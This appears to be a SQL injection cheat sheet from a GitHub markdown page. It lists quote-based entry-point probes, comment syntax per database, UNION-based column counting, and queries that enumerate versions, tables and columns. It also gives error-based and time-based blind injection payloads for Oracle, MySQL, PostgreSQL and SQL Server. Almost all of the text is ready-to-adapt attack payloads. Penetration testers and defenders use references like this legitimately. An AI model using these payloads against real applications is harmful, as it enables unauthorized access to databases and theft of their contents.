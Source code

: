 # Check for SQLi
**Determine entry point:**
```
'
"
`
')
")
`)
'))
"))
`))
```
**Add comments after quote injection:**
```sql
MySQL
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
PostgreSQL
--comment
/*comment*/
MSQL
--comment
/*comment*/
Oracle
--comment
SQLite
--comment
/*comment*/
HQL
HQL does not support comments
```

# Union Based SQL Injection
If you can see the output of your SQL query then this is the best way to exploit it

**Determine number of columns:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Determine number of columns for Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
## Get database versions
**Oracle:**
```sql
SELECT banner FROM v$version
SELECT version FROM v$instance
```
**MySQL, MSQL:**
```sql
SELECT @@version
```
**PostgreSQL:**
```sql
SELECT version()
```
## Get all tables
**Oracle:**
```sql
SELECT * FROM all_tables
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.tables
```
## Get all columns
**Oracle:**
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

# Blind SQLi
If you cant see the output of your query then try these （￣︶￣）↗　

*These are not copy-pastable , you'll need to modify them to fit your already-working injection*

## Check your query can trigger an error response from the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
```
**MSQL:**
```sql
SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END
```
**PostgreSQL:**
```sql
1 = (SELECT CASE WHEN (1=2) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
```
**MySQL:**
```sql
SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
```

## Check your query can cause a time delay in the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
```
**MSQL:**
```sql
IF (1=1) WAITFOR DELAY '0:0:10' 
```
**PostgreSQL:**
```sql
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
**MySQL:**
```sql
SELECT IF(1=1,SLEEP(10),'a')
```
